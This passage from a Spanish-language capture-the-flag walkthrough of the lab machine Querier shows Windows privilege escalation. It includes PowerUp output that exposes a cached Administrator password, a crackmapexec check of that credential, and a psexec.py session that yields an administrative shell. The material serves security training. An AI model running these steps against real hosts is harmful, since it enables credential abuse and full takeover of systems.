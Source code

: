 ```bash
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True                                                                                                             
Name          : UsoSvc                                          
Check         : Modifiable Services                                                                                              
                                                                                                                                 
ModifiablePath    : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
IdentityReference : QUERIER\mssql-svc  
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}                                         
%PATH%            : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks       
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files
                                                                
Changed   : {2019-01-28 23:12:48}          
UserNames : {Administrator}                                                                                                      
NewName   : [BLANK]         
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group 
            Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
Check     : Cached GPP Files
```

De los resultados observamos, vemos diferentes formas de escalar privilegios, *SeImpersonatePrivilege*, *UsoSvc*, *HijackDll* y tambien vemos las credenciales del usuarios **Administrator**.  Si no sabemos como escalar privilegios, podemos ir al siguiente link:

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

Como tenemos credenciales, podemos probarlas con `crackmapexec`:

```bash
❯ crackmapexec smb 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\Administrator:MyUnclesAreMarioAndLuigi!!1! (Pwn3d!)
```

Observamos que nos pone un `Pwn3d!`, por lo tanto podemos conectarnos a la máquina con `psexec.py`:

```bash
❯ psexec.py WORKGROUP/Administrator@10.10.10.125
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.125.....
[*] Found writable share ADMIN$
[*] Uploading file svpJgbpv.exe
[*] Opening SVCManager on 10.10.10.125.....
[*] Creating service vqjK on 10.10.10.125.....
[*] Starting service vqjK.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

```